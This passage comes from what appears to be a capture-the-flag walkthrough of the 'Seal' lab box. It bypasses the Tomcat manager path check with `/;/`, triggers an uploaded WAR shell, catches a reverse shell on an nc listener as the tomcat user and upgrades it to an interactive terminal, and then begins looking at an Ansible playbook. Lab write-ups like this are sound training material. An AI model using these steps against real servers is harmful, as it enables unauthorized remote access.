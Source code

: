 In burp we also change the url like before putting `/;/` between `manager` and `html`.
Next we set up a listener on the port we specified before.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We can trigger the uploaded shell by simply clicking on it.

[![uploaded_war](/img/seal/uploaded_war.png)](/img/seal/uploaded_war.png)

Almost instantly we get a shell as the tomcat user back on our nc listener, which we upgrade and fix the terminals size.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.173.76.
Ncat: Connection from 10.129.173.76:47312.
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@seal:/var/lib/tomcat9$ export TERM=xterm
export TERM=xterm
tomcat@seal:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

tomcat@seal:/var/lib/tomcat9$ stty rows 55 cols 236
```

## Ansible playbook

Looking around we find a file that looks just like an `ansible-playbook` configuration file.
